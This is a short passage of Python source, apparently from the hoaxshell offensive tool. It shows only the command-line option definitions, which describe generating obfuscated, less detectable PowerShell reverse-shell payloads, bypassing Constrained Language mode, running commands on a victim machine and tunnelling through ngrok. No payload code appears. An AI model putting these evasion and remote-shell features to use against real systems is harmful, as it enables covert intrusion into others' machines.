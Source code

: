 
'''
)

parser.add_argument("-s", "--server-ip", action="store", help = "Your hoaxshell server ip address or domain.")
parser.add_argument("-c", "--certfile", action="store", help = "Path to your ssl certificate.")
parser.add_argument("-k", "--keyfile", action="store", help = "Path to the private key for your certificate.")
parser.add_argument("-p", "--port", action="store", help = "Your hoaxshell server port (default: 8080 over http, 443 over https).", type = int)
parser.add_argument("-f", "--frequency", action="store", help = "Frequency of cmd execution queue cycle (A low value creates a faster shell but produces more http traffic. *Less than 0.8 will cause trouble. default: 0.8s).", type = float)
parser.add_argument("-i", "--invoke-restmethod", action="store_true", help = "Generate payload using the 'Invoke-RestMethod' instead of the default 'Invoke-WebRequest' utility.")
parser.add_argument("-H", "--Header", action="store", help = "Hoaxshell utilizes a non-standard header to transfer the session id between requests. A random name is given to that header by default. Use this option to set a custom header name.")
parser.add_argument("-x", "--exec-outfile", action="store", help = "Provide a filename (absolute path) on the victim machine to write and execute commands from instead of using \"Invoke-Expression\". The path better be quoted. Be careful when using special chars in the path (e.g. $env:USERNAME) as they must be properly escaped. See usage examples for details. CAUTION: you won't be able to change directory with this method. Your commands must include ablsolute paths to files etc.")
parser.add_argument("-r", "--raw-payload", action="store_true", help = "Generate raw payload instead of base64 encoded.")
parser.add_argument("-o", "--obfuscate", action="store_true", help = "Obfuscate generated payload.")
parser.add_argument("-v", "--server-version", action="store", help = "Provide a value for the \"Server\" response header (default: Microsoft-IIS/10)")
parser.add_argument("-g", "--grab", action="store_true", help = "Attempts to restore a live session (default: false).")
parser.add_argument("-t", "--trusted-domain", action="store_true", help = "If you own a domain, use this option to generate a shorter and less detectable https payload by providing your DN with -s along with a trusted certificate (-c cert.pem -k privkey.pem). See usage examples for more details.")
parser.add_argument("-cm", "--constraint-mode", action="store_true", help="Generate a payload that works even if the victim is configured to run PS in Constraint Language mode. By using this option, you sacrifice a bit of your reverse shell's stdout decoding accuracy.")
parser.add_argument("-lt", "--localtunnel", action="store_true", help="Generate Payload with localtunnel")
parser.add_argument("-ng", "--ngrok", action="store_true",help="Generate Payload with Ngrok")
parser.add_argument("-u", "--update", action="store_true", help = "Pull the latest version from the original repo.")
parser.add_argument("-q", "--quiet", action="store_true", help = "Do not print the banner on startup.")

args = parser.parse_args()


def exit_with_msg(msg):
	print(f"[{DEBUG}] {msg}")
	sys.exit(0)

